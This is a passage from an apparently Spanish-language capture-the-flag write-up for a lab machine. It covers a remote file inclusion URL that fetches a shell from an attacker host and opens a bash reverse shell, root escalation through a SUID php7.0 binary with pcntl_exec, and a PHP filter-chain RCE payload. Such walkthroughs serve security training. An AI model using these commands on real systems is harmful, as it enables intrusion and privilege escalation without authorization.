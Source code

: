 ![](/assets/img/quick/4.png)

Ahora nos enviaremos una reverse shell con bash

```ruby
http://192.168.1.88/index.php?page=http://192.168.1.73:8080/shell&cmd=bash -c "bash -i >%26 /dev/tcp/<tu_ip>/443 0>%261"
```

![](/assets/img/quick/5.png)

En este punto podemos leer la flag de user del directorio del usuario **andrew** ya que tiene permisos de lectura para otros

![](/assets/img/quick/6.png)

## Escalada de privilegios

Si buscamos por binarios SUID encontraremos el PHP 7.0:

```bash
find / -perm -u=s -type f 2>/dev/null

/usr/bin/php7.0
```

Haciendo una pequeña busqueda en GFTOBins  encontraremos una forma de hacernos root ingresando esto:

```bash
sudo install -m =xs $(which php) .

CMD="/bin/sh"
./php -r "pcntl_exec('/bin/sh', ['-p']);"
```
Pero no es necesario, lo unico que debemos de ejecutar es 

```bash
/usr/bin/php7.0 -r "pcntl_exec('/bin/bash', ['-p']);"
```

Ya seremos root y podemos leer la flag

![](/assets/img/quick/7.png)

## Intrusion (via no intencionada)

Otra manera de poder conseguir RCE que posiblemente no sea intencionadas es haciendo uso de **filter chain**,  para realizarlo podemos hacer uso de este script que automatiza la creacion del payload usando php filters chains: [https://github.com/synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)

Para el ejemplo generare el payload que haga uso de la funcion system para ejecutar el comando **id**

```ruby
python3 php_filter_chain_generator.py --chain '<?php system("id"); ?>'
```
